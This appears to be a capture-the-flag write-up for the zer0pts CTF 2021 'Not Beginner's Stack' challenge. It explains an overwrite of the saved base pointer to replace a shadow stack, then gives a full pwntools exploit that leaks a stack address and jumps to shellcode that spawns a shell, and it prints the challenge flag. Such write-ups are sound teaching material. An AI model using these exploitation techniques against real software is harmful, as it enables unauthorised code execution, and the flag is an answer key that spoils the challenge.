 # [zer0pts CTF 2021](https://2021.ctf.zer0pts.com) - "Not Beginner's Stack"

## Challenge

### Description

Elementary pwners love to overwrite the return address. This time you can't! \
`nc pwn.ctf.zer0pts.com 9011`

### Files

```
not_beginners_stack_0956db1b183fd1e9877f64c713871f3b.tar.gz/
  not_beginners_stack/
    chall
    FOR_BEGINNERS.md
    main.S
```

## Analysis

The tarball contains a file `FOR_BEGINNERS.md` explaining the stack, how stack buffer overflows are normally used to overwrite the return pointer and why it won't work in this challenge since `call`/`ret` are replaced with `jmp`s reading return pointers from a "shadow stack" stored in the `.bss` section. It also provides a hint on what can be done instead, i.e. overwriting the base pointer.

We are given the assembly code `main.S` of the challenge binary, so there is not much reverse engineering required to craft an exploit. I use `objdump -d -M intel chall` to find the raw addresses and generated labels I need.

`checksec` on `chall`:
```
[*] "/home/luca/projects/zer0pts CTF/pwn/Not Beginner's Stack/not_beginners_stack/chall"
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
This should be easy.[1]

The output of `checksec` is especially important for this challenge as it correctly reports the stack to be executable *in theory*, which it is not on my local machine or, apparently, on modern kernels in general.[2] This means that we cannot get the shellcode part of my exploit to work locally, but at least it works on the remote.

> It works on their machine. — Then we'll ship their machine.

With the return addresses on a shadow stack, we need to find a way to write there. Since `rbp` is still saved to the "regular" stack, we can overwrite it with a pointer into the data segment (the address of which is known because of `No PIE`) using the vulnerable `read` in `vuln` (reading up to 4096 bytes into a 256-byte stack buffer). Then, the `leave` instruction at the end of `vuln` sets `rsp` to the current base pointer and pops `rbp` off the stack, thus setting it to our desired value. The subsequent `read` in `notvuln` now writes a shiny new shadow stack to `[rbp-0x100]`.

## Exploit

My exploit requires the current `stable` version of `pwntools` (`4.3.1` at the time of writing).

```python
#!/usr/bin/env python3

from pwn import *

BINARY = 'not_beginners_stack/chall'
```

I implemented my own little helper class for building the shadow stack, similar to `pwntools`' `ROP`.

```python
class ShadowStack:
    def __init__(self, binary):
        self.binary = binary
        self.depth = 0
        self.stack = b''
        self.meta = []

    def __getattr__(self, sym):
        addr = self.binary.symbols[sym]
        def call(*args):
            if args:
                raise NotImplementedError
            self.call(addr, sym)

        return call

    def call(self, addr, meta=None):
        self.depth += 1
        self.stack = p64(addr) + self.stack
        self.meta.append(meta)

    def chain(self, length=None):
        return flat({0x0: p32(self.depth), 0x6: self.stack}, length=length)

    def dump(self):
        stack = self.stack
        dump = [f'__stack_depth: {self.depth}', '__stack_shadow:']
        for i, m in enumerate(self.meta):
            addr = int.from_bytes(stack[-8:], context.endian)
            stack = stack[:-8]
            dump.append(f'  [{len(self.meta)-i-1}] {hex(addr)} ' + (m or '<raw>'))
        return '\n'.join(dump)
```

The first part of the exploit builds a new shadow stack used to overwrite the current one as described above:
1. `notvuln()` — `enter`s twice, but `leave`s only once; the second `enter` pushes an address to the regular stack onto it
2. `vuln()` — `enter`s the second stack frame from the previous call again, `rdi`, `rsi` and `rdx` will be set to `0`, `[rbp-0x100]` and `0x1000`, respectively
3. `0x400115()`[3] — set `rdi` to `1`, then call `write`, then `read`; this leaks 4096 bytes of stack memory and reads some shellcode onto the stack; the aforementioned stack address is at offset `0x100` in the leak
5. `..@9.return_address()` — `leave` to set `rbp` to `[__stack_shadow+0x100]`
6. `..@5.return_address()` — read another shadow stack
7. `exit()` — not used in the final exploit, cleanly exit when testing e.g. the leak

```python
context(binary=BINARY)
elf = context.binary

shadow = ShadowStack(elf)
shadow.notvuln()
shadow.vuln()
#shadow.call(0x40018a)
shadow.call(0x400115)
getattr(shadow, '..@9.return_address')()
getattr(shadow, '..@5.return_address')()
shadow.exit()
print(shadow.dump())
```

Send/receive data as described above or required for `read` to continue:

```python
shellcode = asm(shellcraft.sh())

#conn = process(BINARY)
conn = remote('pwn.ctf.zer0pts.com', 9011)

#gdb.attach(conn)

# regular i/o
conn.sendafter(b'Data: ', flat({0x100: elf.symbols['__stack_depth']+0x100})) # overwrite rbp
conn.sendafter(b'Data: ', shadow.chain(0x100)) # overwrite shadow stack

# shadow.notvuln()
conn.sendafter(b'Data: ', b'A')
conn.sendafter(b'Data: ', b'A')

# shadow.vuln()
conn.sendafter(b'Data: ', b'A')

leak = conn.recvn(0x1000)
#print(hexdump(leak))

# shadow.call(0x40018a)
#conn.send(flat({0x0: shellcode, 0x100: elf.symbols['__stack_depth']+0x100}, length=0x1000))

# shadow.call(0x400115)
conn.send(flat(shellcode, length=0x100))
```

The second part of the exploit consists of extracting the leaked stack address and building another shadow stack to jump to the shellcode at `stack_addr-0x100`:

```python
stack_addr = int.from_bytes(leak[0x100:0x108], context.endian)
print('Leaked address:', hex(stack_addr))

# getattr(shadow, '..@5.return_address')()
shadow = ShadowStack(elf)
shadow.call(stack_addr-0x100)
conn.send(shadow.chain(0x100))
#conn.send(p32(1))

conn.interactive()
```

(For testing the leak, we can send `1` instead of the shadow stack. The process then returns to `exit` instead of the shellcode to terminate itself after the leak.)

This will give us a shell from which we can run `cat flag-*.txt`. Yay!

```
zer0pts{1nt3rm3d14t3_pwn3r5_l1k3_2_0v3rwr1t3_s4v3d_RBP}
```

Sometimes the script will hang when reading the leak. `Ctrl-C` and running it again works for me.

## Footnotes

1. It still took me way too long to get to a working exploit or even the leak.
2. It could have been even easier: As it turns out, not only is the stack executable, but the data segment as well.
3. I originally intended to use `0x40018a` here since it would ensure that the following `leave` (which would also be included, rendering `..@9.return_address` unnecessary) loads `[__stack_shadow+0x100]` into `rbp` by writing that address to the stack again. However, the value is already there and I did not want to print another prompt or otherwise separate the final two unconditional `send`s, so I chose to use `0x400115` and write as much bytes as would be consumed. Writing as much bytes as `read` would consume at `0x40018a` did not work — overflowing the buffer with 4096 bytes lead to a segmentation fault.
